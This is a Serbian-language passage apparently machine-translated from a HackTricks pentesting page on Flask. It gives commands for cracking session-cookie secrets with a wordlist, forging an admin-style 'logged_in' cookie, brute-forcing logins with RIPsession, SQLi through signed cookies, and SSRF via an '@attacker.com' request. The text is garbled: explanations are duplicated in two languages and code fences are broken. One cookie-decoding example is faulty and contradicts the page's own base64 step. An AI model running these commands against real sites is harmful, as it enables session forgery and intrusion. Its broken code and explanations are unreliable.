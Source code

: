 # Flask

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

<figure><img src="../../.gitbook/assets/image (9) (1) (2).png" alt=""><figcaption></figcaption></figure>

Koristite [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) da lako izgradite i **automatizujete radne tokove** uz pomoć najnaprednijih alata zajednice.\
Dobijte pristup danas:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

**Verovatno ako igrate CTF, Flask aplikacija će biti povezana sa** [**SSTI**](../../pentesting-web/ssti-server-side-template-injection/)**.**

## Kolačići

Podrazumevano ime sesije kolačića je **`session`**.

### Dekoder

Online Flask dekoder kolačića: [https://www.kirsle.net/wizards/flask-session.cgi](https://www.kirsle.net/wizards/flask-session.cgi)

#### Ručno

Dobijte prvi deo kolačića do prvog tačkog znaka i dekodirajte ga iz Base64 formata>

```bash
echo "ImhlbGxvIg" | base64 -d
```

Kolačić je takođe potpisan korišćenjem lozinke

### **Flask-Unsign**

Komandna linija alatka za preuzimanje, dekodiranje, brute-force napad i kreiranje sesijskih kolačića Flask aplikacije pogađanjem tajnih ključeva.

{% embed url="https://pypi.org/project/flask-unsign/" %}

```bash
pip3 install flask-unsign
```

#### **Dekodiranje kolačića**

````plaintext
To decode a Flask session cookie, you can use the `itsdangerous` library. The session cookie is usually named `session` and is base64 encoded. Here's an example of how to decode it:

```python
import base64
from itsdangerous import URLSafeTimedSerializer

def decode_cookie(cookie_value, secret_key):
    serializer = URLSafeTimedSerializer(secret_key)
    decoded_cookie = base64.b64decode(cookie_value)
    data = serializer.loads(decoded_cookie)
    return data
````

In the above code, `cookie_value` is the value of the session cookie and `secret_key` is the secret key used to sign the cookie. The `URLSafeTimedSerializer` class from `itsdangerous` library is used to deserialize the cookie value.

To use the `decode_cookie` function, you can pass the session cookie value and the secret key as arguments. It will return the decoded data from the cookie.

Keep in mind that decoding a session cookie requires the secret key used to sign the cookie. Without the secret key, it is not possible to decode the cookie and access its data.

````

```plaintext
Da biste dekodirali Flask sesijski kolačić, možete koristiti biblioteku `itsdangerous`. Sesijski kolačić obično se naziva `session` i kodiran je u base64 formatu. Evo primera kako ga dekodirati:

```python
import base64
from itsdangerous import URLSafeTimedSerializer

def decode_cookie(cookie_value, secret_key):
    serializer = URLSafeTimedSerializer(secret_key)
    decoded_cookie = base64.b64decode(cookie_value)
    data = serializer.loads(decoded_cookie)
    return data
````

U gornjem kodu, `cookie_value` je vrednost sesijskog kolačića, a `secret_key` je tajni ključ koji se koristi za potpisivanje kolačića. Klasa `URLSafeTimedSerializer` iz biblioteke `itsdangerous` koristi se za deserijalizaciju vrednosti kolačića.

Da biste koristili funkciju `decode_cookie`, možete proslediti vrednost sesijskog kolačića i tajni ključ kao argumente. Vratiće dekodirane podatke iz kolačića.

Imajte na umu da za dekodiranje sesijskog kolačića potreban je tajni ključ koji se koristi za potpisivanje kolačića. Bez tajnog ključa nije moguće dekodirati kolačić i pristupiti njegovim podacima.

````
```bash
flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8'
````

#### **Brute Force**

#### **Bruteforsiranje**

Brute force je tehnika koja se koristi za pokušaj otkrivanja lozinke ili ključa tako što se sistem napada iscrpnom proverom svih mogućih kombinacija. Ova tehnika se često koristi u napadima na veb aplikacije kako bi se probila autentifikacija ili pristupilo zaštićenim resursima.

Da bi se izvršio brute force napad, napadač koristi automatizovani alat koji generiše i proverava veliki broj kombinacija lozinki ili ključeva. Ovaj proces može biti vremenski zahtevan, ali može biti uspešan ako je lozinka ili ključ slabo postavljen.

Da bi se zaštitili od brute force napada, preporučuje se korišćenje snažnih lozinki ili ključeva koji se sastoje od kombinacije slova, brojeva i specijalnih znakova. Takođe, implementacija mehanizama za detekciju i sprečavanje brute force napada može biti od velike pomoći.

```bash
flask-unsign --wordlist /usr/share/wordlists/rockyou.txt --unsign --cookie '<cookie>' --no-literal-eval
```

#### **Potpisivanje**

```bash
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME'
```

#### Potpisivanje pomoću zastarelih (starih verzija)

U nekim starijim verzijama Flask-a, postoji mogućnost potpisivanja podataka pomoću `itsdangerous` biblioteke. Ova biblioteka omogućava generisanje digitalnog potpisa koji se može koristiti za verifikaciju integriteta podataka.

Da biste koristili ovu funkcionalnost, prvo morate instalirati `itsdangerous` biblioteku. To možete uraditi pomoću pip komande:

```plaintext
pip install itsdangerous
```

Nakon instalacije, možete koristiti `itsdangerous` biblioteku za generisanje potpisa. Evo jednostavnog primera:

```python
from itsdangerous import Signer

# Kreiranje potpisivača
signer = Signer('tajni_kljuc')

# Potpisivanje podataka
potpisani_podaci = signer.sign('Podaci koje želite da potpišete')

# Verifikacija potpisa
try:
    verifikovani_podaci = signer.unsign(potpisani_podaci)
    print('Potpis je validan.')
    print('Verifikovani podaci:', verifikovani_podaci)
except:
    print('Potpis nije validan.')
```

U ovom primeru, `tajni_kljuc` predstavlja tajni ključ koji se koristi za generisanje potpisa. Možete koristiti bilo koji tajni ključ koji želite.

Napomena: Ova metoda potpisivanja se smatra zastarelom i preporučuje se korišćenje novijih metoda potpisivanja koje pruža Flask.

```bash
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME' --legacy
```

### **RIPsession**

Komandna linija alatka za brute-force napade na veb sajtove koristeći kolačiće kreirane pomoću flask-unsign biblioteke.

{% embed url="https://github.com/Tagvi/ripsession" %}

```bash
ripsession -u 10.10.11.100 -c "{'logged_in': True, 'username': 'changeMe'}" -s password123 -f "user doesn't exist" -w wordlist.txt
```

### SQLi u Flask sesijskom kolačiću pomoću SQLmap-a

[**Ovaj primer**](../../pentesting-web/sql-injection/sqlmap/#eval) koristi sqlmap `eval` opciju da **automatski potpiše sqlmap payload-e** za Flask koristeći poznati tajni ključ.

## Flask Proxy za SSRF

[**U ovom članku**](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies) je objašnjeno kako Flask dozvoljava zahtev koji počinje sa karakterom "@":

```http
GET @/ HTTP/1.1
Host: target.com
Connection: close
```

Koji je sledeći scenario:

```python
from flask import Flask
from requests import get

app = Flask('__main__')
SITE_NAME = 'https://google.com/'

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def proxy(path):
return get(f'{SITE_NAME}{path}').content

app.run(host='0.0.0.0', port=8080)
```

Moguće je omogućiti unošenje nečega poput "@attacker.com" kako bi se izazvao **SSRF**.

<figure><img src="../../.gitbook/assets/image (9) (1) (2).png" alt=""><figcaption></figcaption></figure>

Koristite [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) da biste lako izgradili i **automatizovali radne tokove** uz pomoć najnaprednijih alata zajednice na svetu.\
Dobijte pristup danas:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **oglašavanje vaše kompanije u HackTricks-u** ili **preuzmete HackTricks u PDF formatu**, proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje trikove hakovanja slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
